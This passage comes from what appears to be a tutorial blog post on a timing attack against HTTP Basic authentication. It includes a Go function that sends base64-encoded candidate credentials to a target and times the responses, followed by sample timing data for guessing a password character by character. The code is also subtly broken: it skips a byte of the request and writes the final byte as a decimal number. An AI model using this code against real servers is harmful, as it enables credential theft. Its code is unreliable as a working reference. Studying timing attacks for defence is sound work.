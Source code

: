 {% endhighlight %}

Really simple right? We're just spamming a target with some requests,
logging the difference in time between sending and receiving the
response to stdout - which, just for reference - we're shoving into
a csv file for good measure.

{% highlight go %}
func sendRequest(candidate []rune) (delta time.Duration)  {
	// empty existing buffer
	buffer.Reset()
	// encoder is a base64 encoder
	encoder.Write([]byte("DoesNotMatter:"+string(candidate)))
	body := fmt.Sprintf(skeletonRequest, buffer.String())
	blen := len(body)
	// Operator, connect me to target.. Yes, I'll hold
	conn, err  := net.Dial("tcp", host)
	check(err, "sendRequest, Dial"); defer conn.Close()
	
	// we want to send everything but the last byte, start the
	// timer, and "stop" the timer when we get back a response.
	// But first, let's sleep for a while, just so that things
	// settle down.
	time.Sleep(500*time.Microsecond) // adjust if you're impatient
	fmt.Fprint(conn, body[:blen-2])
	pre := time.Now()
	fmt.Fprint(conn, body[blen-1])
	bufio.NewReader(conn).ReadByte()
	return time.Since(pre)
}
{% endhighlight %}

Things continue to be quite basic in the sendRequest function,
just note that we are sleeping for a short while after establishing
the connection to our target.

We send all except the very last byte before starting our timer, and
save the delta it when we've received a single byte back from the
connection.

Now that we have the capability of collecting data, we should make
sure that we're collecting a decent amount, I went with 101 iterations
of the snippet from the main-function above. Fortunately, through the
magic of television - I have prepared some data for us to analyze, a
taste of which is listed below.

~~~
# nanoseconds,character,index
41330723,a,0
41062751,a,0
40928865,a,0
40966440,a,0
41010675,a,0
40754768,a,0
40649135,a,0
~~~
